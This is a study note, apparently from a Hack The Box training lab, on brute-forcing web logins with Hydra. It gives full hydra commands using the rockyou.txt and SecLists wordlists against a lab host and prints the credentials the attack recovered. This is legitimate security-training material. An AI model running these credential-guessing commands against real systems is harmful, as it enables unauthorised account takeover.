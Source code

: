 ```yaml
---
title: c-Username Bruteforce
draft: false
tags:
---
```

## Wordlists

One of the most commonly used password wordlists is `rockyou.txt`, which has over 14 million unique passwords, sorted by how common they are, collected from online leaked databases of passwords and usernames.

```shell-session
jadu101@htb[/htb]$ locate rockyou.txt

/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

As for our usernames wordlist, we will utilize the following wordlist from `SecLists`:

```shell-session
jadu101@htb[/htb]$ locate names.txt

/opt/useful/SecLists/Usernames/Names/names.txt
```

## Username/Password Attack

`Hydra` requires at least 3 specific flags if the credentials are in one single list to perform a brute force attack against a web service:

1. `Credentials`
2. `Target Host`
3. `Target Path`

We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist.

Tip: We will add the "-u" flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.

```shell-session
jadu101@htb[/htb]$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

[DATA] max 16 tasks per 1 server, overall 16 tasks, 243854766 login tries (l:17/p:14344398), ~15240923 tries per task
[DATA] attacking http-get://178.35.49.134:32901/
[STATUS] 9105.00 tries/min, 9105 tries in 00:01h, 243845661 to do in 446:22h, 16 active

<...SNIP...>
[32901][http-get] host: 178.35.49.134   login: thomas   password: thomas1

[STATUS] attack finished for SERVER_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Above will take a lot of time.

## Username Bruteforce

If we know the password already, use `-p` flag to note it:

```shell-session
jadu101@htb[/htb]$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:17/p:1), ~2 tries per task
[DATA] attacking http-get://178.35.49.134:32901/

[32901][http-get] host: 178.35.49.134   login: abbas   password: amormio
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```


